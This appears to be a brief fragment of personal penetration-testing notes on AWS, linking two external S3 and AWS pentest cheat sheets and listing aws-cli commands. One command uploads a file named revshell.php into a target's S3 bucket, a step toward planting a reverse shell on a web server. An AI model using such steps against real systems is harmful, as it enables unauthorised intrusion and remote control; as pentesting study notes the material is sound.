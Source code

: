 ## AWS
- [AWS pentest cheat sheet](https://pentestbook.six2dez.com/enumeration/cloud/aws)
- [AWS s3 cheat sheet](https://blog.securelayer7.net/aws-penetration-testing-for-s3-bucket-service-basics-security/)
- install aws cli and aws s3 (dont foget to make aws configure)
	- ws s3 --endpoint=http://s3.website.com ls  s3://website.com
	- ws s3 --endpoint=http://s3.website.com cp revshell.php  s3://website.com
